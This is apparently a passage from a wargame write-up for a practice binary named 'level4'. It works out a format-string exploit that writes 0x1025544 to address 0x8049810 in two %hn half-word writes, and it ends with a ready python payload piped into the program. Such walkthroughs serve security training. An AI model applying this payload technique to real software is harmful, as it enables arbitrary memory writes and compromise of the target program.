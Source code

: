Same principle as before, except this time we need to write: 
0x1025544 (16930116) in 0x8049810
Our string will start at the 12th position on the stack
We have to divide it in two parts:
0x5544 (21828) to 0x8049810 (-258 for the first write: 21570)
0x0102 (258) to 0x8049812 (-8 for the two 4 bytes addresses: 250)
So:
`python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn"' | ./level4`
